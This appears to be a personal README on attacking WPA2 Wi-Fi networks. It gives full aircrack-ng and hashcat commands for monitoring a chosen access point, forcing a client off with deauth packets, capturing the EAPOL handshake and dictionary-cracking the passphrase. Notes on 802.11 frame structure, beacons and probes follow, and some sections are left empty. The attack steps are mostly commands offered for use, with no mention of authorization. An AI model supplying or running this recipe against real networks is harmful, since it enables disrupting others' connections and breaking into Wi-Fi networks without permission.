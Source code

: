 # WPA2 Deauth Attack

Basic Steps:

* (1) Put wNIC into monitor or promiscious mode
* (2) Monitor the network for traffic
    * (2a) Consider Strength of signal
    * (2b) Consider Whether or not you see both router and device traffic
* (3) Target the monitor to just the interested Access Point and dump its traffic
* (4) In parallel, send a malicious de-auth packet from your wNIC whose dest is the station and whose src is the router
* (5) Hopefully capture the eapol handshake to get the encrypted passphrase
* (6) Use a hash-breaker tool find a passphrase usually from a dictionary or set of rules that reproduce the recovered hased passphrase

These steps can be executed on a linux box with the following

* [install aircrack tools](https://www.aircrack-ng.org/doku.php?id=install_aircrack)
* `sudo airmon-ng start wlp5s0`
    * Assume your NIC is `wlp5s0`, most are named `wlan0`
* `iwconfig to verify monitor mode`
* `sudo airodump-ng wlp5s0mon`
    * This will give you an idea of what AP's, stations, and channels to target
    * Record the MAC of the AP and the station you want to kick off
* `sudo airodump-ng wlp5s0mon -c <chan> --bssid <AP MAC> -w <file_name>`
    * Keep this open to log WPA2 Handshake
* In other term `sudo aireplay wlp5s0mon -0 1 -a <AP MAC> -c <TARGET MAC>`
    * This sends the attack
    * Hopefully in the dump term you capture the handshake
* To crack using aircrack: `aircrack-ng -a 2 -b <bssid> <.cap file> -w <wordlist>`
* To restore if -> `sudo airmon-ng stop wlp5s0mon && sudo ifconfig wlp5s0 up`
* To crack with hashcat Install hashcat and haschcat-utils
    * Convert the `.cap` to a `.hccapx`
    * `hashcat -m 2500 -a 0 <hhcapx> <wordlist>` will do a straight dictionary attack

# Probes, Beacons, and Wifi Packets

To get stated analyzing this attack we need to look at exactly how one knows that an access point or AP is avaiable. After all this attack targets a single and deliberately chosen AP. The best way to start analyzing packets is with wireshark which can be installed with the `apt` mananger. One can run this `sudo airodump-ng wlp5s0mon -c <chan> --bssid <AP MAC> -w <file_name>` followed by running wire shark on the outputted .cap file. In wireshark you can filter out alot of the noise on the channel with the filter `wlan.addr == <bssid> `.

# WIFI packet Basic Structure

```

-----------------------------------------------------------------
| FC | Dur | DA | SA | BSSID | Seq | A4 | QoS | HT | Body | FCS |
-----------------------------------------------------------------

```

* FC = Frame Control. Most importantly defines frame type and sub type. See [here](https://en.wikipedia.org/wiki/802.11_Frame_Types)
* Dur = Duration. Usually denotes the amount requested or granted of airtime
* DA = Destination Address
* SA = Source Address
* BSSID = MAC of AP
* Seq = Sequence Number
* A4 = MAC 4 only present in frames between APs
* QoS = Quality of Service
* HT = High Throughput
* Body = Main body of packet
* FCS = CRC of packet including header

Each of these fields have drastically different meanings based on the type of frame of which there are 4 major types:

* Data
* Control
* Management
* Misc

Below we look at a very very small subset of the packet and their contents as it relates to this attack.

## Beacon

* Sent automatically by all acccess points at a regular interval.
* FC = `0x8000`
    * This decodes to a frame of type Management and a subtype of beacon
* DA = `ff:ff:ff:ff:ff:ff` and SA=BSSID
* In a beacon frame rate of beacon frame sent is advertised
* Capabilites, SSID (the ascii name of the AP), Supported rates are all sent.
* To see this, do a dump with the `-e` flag targeting an AP: `sudo airodump-ng wlp5s0mon -e --bssid B6:FE:F4:C3:ED:EE -c 6 -w out`
* Open wire shark on the .cap file and you should see a butt load of beacons
* When scanning for APs listening for beacons is considered a passive scan

## Probe

* Deliberatley sent by the station (STA) to the AP aka an active AP scan
* FC = `0x4000`
    * This decodes to a managment type with probe request sub type
* DA = `ff:ff:ff:ff:ff:ff` = BSSID
* SA = <sender MAC>
* The packet really only contains the STAs advertised rates and the ssid of a AP if the scan was targeted to an AP
* To capture these packets we just set the ESP32 deluminator to scan our home AP and dumped packets targeting that AP

## Authentication

## Deauthentication

## WPA2 EAPOL Frames

# Resources

* [Wiki on Wifi Frame](https://en.wikipedia.org/wiki/802.11_Frame_Types)
* [Wiki on 802.11](https://en.wikipedia.org/wiki/IEEE_802.11#Layer_2_%E2%80%93_Datagrams)
